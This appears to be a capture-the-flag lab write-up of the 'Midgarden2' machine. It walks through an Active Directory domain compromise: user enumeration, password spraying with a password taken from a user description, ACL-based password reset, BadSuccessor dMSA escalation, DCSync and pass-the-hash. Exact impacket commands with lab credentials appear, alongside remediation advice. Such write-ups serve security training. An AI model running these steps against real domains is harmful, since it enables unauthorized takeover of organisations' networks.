# Summary

_Midgarden2_ is a hard rated machine on the _HackSmarter_ platform. In order to fully compromise the target host, one must exploit/abuse multiple vulnerabilities/misconfigurations:

- User description contain cleartext password. Since LDAP allows querying objects on the domain, a password that appears in a user description is accessible to all. Remediation is easy - not using this field to store passwords, not even temporarily.
- No account lockout threshold - allowed me to spray credentials repeatedly. Easily mended by enforcing an account lockout policy.
- ACL (_ForceChangePassword_) enabled lateral movement to a more privileged account. To mitigate that - periodical auditing of ACLs is recommended.
- Excessive permissions in OU delegation (_BadSuccessor_) in the form of _CREATE_CHILD_ rights over an OU allowed for creation of a dMSA as a successor of _Domain Admins_ member. This vector allowed for privilege escalation. Removing _CREATE_CHILD_ should mitigate this vector, if possible.

## Graphical Summary


---
# Introduction

## Objective

As a member of the Hack Smarter Red Team, you have been assigned to this engagement to conduct a comprehensive penetration test of the client's internal environment.

The client has a mature security posture and has previously undergone multiple internal penetration testing engagements. Given our team's advanced expertise in ethical hacking, the primary objective of this assessment is to identify attack vectors that may have been overlooked in prior engagements.
## Credentials

```
freyja:Fr3yja!Dr@g0n^12
```

## Host Information

As a preliminary step, I authenticate to the target host using the disclosed credentials - from the output I can draw the hostname, domain name and FQDN:



These were added as entries to my local hosts file:



---
# TCP Range Scan

Scanning the target host with the following command:

```bash
sudo nmap -A -T4 -v -oN Scans/MG2_TCP MIDGARDDC -Pn
Nmap scan report for MIDGARDDC (10.1.82.173)
Host is up (0.099s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-13 13:24:53Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: yggdrasil.hacksmarter, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: yggdrasil.hacksmarter, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server
[...]
|   Target_Name: YGGDRASIL
|   NetBIOS_Domain_Name: YGGDRASIL
|   NetBIOS_Computer_Name: MIDGARDDC
|   DNS_Domain_Name: yggdrasil.hacksmarter
|   DNS_Computer_Name: MidgardDC.yggdrasil.hacksmarter
|   DNS_Tree_Name: yggdrasil.hacksmarter
[...]
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3389-TCP:V=7.99%I=7%D=8/13%Time=6A7DC5AA%P=x86_64-pc-linux-gnu%r(Te
SF:rminalServerCookie,13,"\x03\0\0\x13\x0e\xd0\0\0\x124\0\x02\?\x08\0\x02\
SF:0\0\0");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Uptime guess: 0.009 days (since Thu Aug 13 05:12:55 2026)
Network Distance: 3 hops
TCP Sequence Prediction: Difficulty=256 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Notes on Scan Results

- The target host is a domain controller, based on the services accessible over default ports. 

---
# AD Enumeration
## Domain User Enumeration

Using _impacket-lookupsid_, I can compile a list of valid domain users:

```bash
# Collecting names of domain objects - usernames, groups, etc.
impacket-lookupsid 'freyja':'Fr3yja!Dr@g0n^12'@MIDGARDDC -no-pass 25000 > Lists/RIDC.txt

# Refining the list to contain valid usernames
grep "(SidTypeUser)" Lists/RIDC.txt | awk -F '\\' '{print $2}' | sed 's/ (SidTypeUser)//' > Lists/users_RIDC.txt
```

Reviewing the users, I can spot 7 accounts that seem like workstation or service accounts:

```
AsgardCA$
ValhallaDHCP$
VanaheimWeb1$
VanaheimWeb2$
NifleheimrWrk$
BrimirWrk$
svc_iis_dMSA$
```

When enumerating users using _netexec_'s `--users`, a cleartext password appears in the description of `Thor`:



Prior to spraying the password across the recovered domain users, I will check the password policy:



Since there's no account lockout threshold, I can spray freely without the fear of locking any of the domain users. Spraying the recovered password - it authenticates `Thor` successfully:



- Checked for ASREProast - no susceptible users.
- Checked for both password re-use with both passwords - no susceptible users.
- Attempted to blind Kerberoast - no susceptible users.
- Attempted to use usernames as passwords - no user uses its username as a password.
## Credentialed LDAP Enumeration

LDAP (Lightweight Directory Access Protocol) is a protocol used to access and manage directory services, such as Active Directory. It operates over **port 389 (unencrypted)** and **port 636 (LDAPS - encrypted with SSL/TLS)** by default.

Having valid domain credentials allows me to enumerate the Active Directory environment using _ldapdomaindump_ and _BloodHound_ ingestor. The output from this tools can help map relationships and identify attack paths visually.

### _ldapdomaindump_

Using `freyja`'s valid credentials to execute _ldapdomaindump_:



Reviewing the _domain_users_ and _domain_users_by_group_ output files I can gather the following insights:

- `Tyr` and `Ullr` are members of the _PC Specialist 1_ group:



- `Skadi`, `Sif` and `Thor` are members of the _PC Specialist 2_ group:



- `Hodr` is the sole member of the _webServerAdmins_ group:



The _webServerAdmins_ is nested within _Remote Management Users_, which means that `Hodr` can establish remote sessions on the target host over WinRM:



- `Ymir` is the sole non-default member of the _Enterprise Admins_ group, `Odin` is the sole non-default member of the _Domain Admins_ group:



To summarize, at the very least - `Ymir` and `Thor` are naturally high value targets, `Hodr` can also be confirmed as a privileged user. Other user domain membership value is yet to be determined.

Reviewing the _domain_computers_ output file, it contains all workstations accounts collected in user enumeration **apart from** `svc_iis_dMSA$`:


### _BloodHound_

Using `freyja`'s valid credentials to execute _bloodhound-python_ collector:



Loading the newly-created _.zip_ file into the _BloodHound_ GUI, I mark both compromised users as owned. 

Reviewing `Thor`'s _Outbound Object Control_, I see that it has the _ForceChangePassword_ ACL on `Hodr`:



# Foothold

## Compromising `Hodr`

Changing `Hodr`'s password and confirming authentication:



Establishing a session over WinRM:



## Filesystem Enumeration

Reviewing the file system, I find a non-default _scripts_ directory within _C:\\_:



Exfiltrated the files within _scripts_ to my local host, they revolve around creating and managing dMSAs. _dMSA_ had already appeared previously, it was within the name of the `svc_iis_dMSA$` account - that was absent from the workstation account tally.  

# Privilege Escalation

## BadSuccessor

[dMSA](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/delegated-managed-service-accounts/delegated-managed-service-accounts-overview), Delegated Managed Service Account, is an account type introduced in Windows Server 2025. According to the linked resource, it "_allows migration from a traditional service account to a machine account with managed and fully randomized keys, while disabling original service account passwords._" 

Whenever dealing with such objects I rather use _bloodyAD_ to understand whether they fall within my current sphere of possibilities:



`Hodr` has _WRITE_ privileges over the _Web Admins_ OU - seem to correspond to the fact the user is a member of the _webServerAdmin_ group. Furthermore, it has _CREATE_CHILD_ privileges over the _Web Server_ OU. 

Reviewing my options at this point, _CREATE_CHILD_ and dMSA combination leaning towards [BadSuccessor](https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory) - in which the permission on any OU or container was sufficient to create a dMSA with an arbitrary superseded account target.

_netexec_ has a vulnerability checker for this specific vector:



There is a badsuccessor.py script by _impacket_:



## Creating the dMSA

Executing the attack was not smoothly done, though I can not pinpoint the exact source of the issue. I respawned the target host and altered `Hodr`'s password using _bloodyAD_ rather than _netexec_ - since the received error was about a cryptography mismatch (error `18` when issuing a service ticket). I went ahead targeting `Odin`, as is it a member of _Domain Admins_ - the created dMSA, `Liar3-dMSA$`, will be its successor:

```bash
python3 /usr/share/doc/python3-impacket/examples/badsuccessor.py 'yggdrasil.hacksmarter/Hodr:LiarPants1!' -dmsa-name 'Liar3-dMSA' -action 'add' -target-ou 'OU=Web Servers,OU=Yggdrasil Servers,DC=yggdrasil,DC=hacksmarter' -target-account 'odin' -method LDAP -dc-ip '10.1.117.157'
```



## Acquiring Ticket for dMSA

I have successfully created the dMSA, now I will get a service ticket impersonating the dMSA:

```bash
impacket-getST 'yggdrasil.hacksmarter/Hodr:LiarPants1!' -dmsa -self -impersonate 'Liar3-dMSA$' -dc-ip 10.1.117.157
```



## Performing DCSync

Having successfully gotten a ticket to authenticate as `Liar3-dMSA$`, pointing to the ticket and performing DCSync - confirming full domain compromise:



From the output, I can recover `Odin`'s LM hash and authenticate using Pass-the-Hash:



Establishing a session on the target host over WinRM, confirming command execution as `Odin`:




